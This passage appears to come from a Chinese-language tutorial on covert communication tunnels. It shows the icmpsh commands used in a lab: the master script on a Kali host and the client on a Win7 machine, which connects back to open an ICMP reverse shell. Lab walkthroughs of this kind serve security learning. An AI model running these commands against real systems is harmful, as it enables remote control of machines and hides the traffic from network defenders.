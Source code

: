 ![](./img/隐藏通信隧道基础知识/11.png)

于是我使用了Python脚本运行：

```
python icmpsh_m.py 192.168.217.129【kali】 192.168.217.132【win7】
```

![](./img/隐藏通信隧道基础知识/12.png)

然后在Win7上执行命令：

```
icmpsh.exe -t 192.168.217.129
```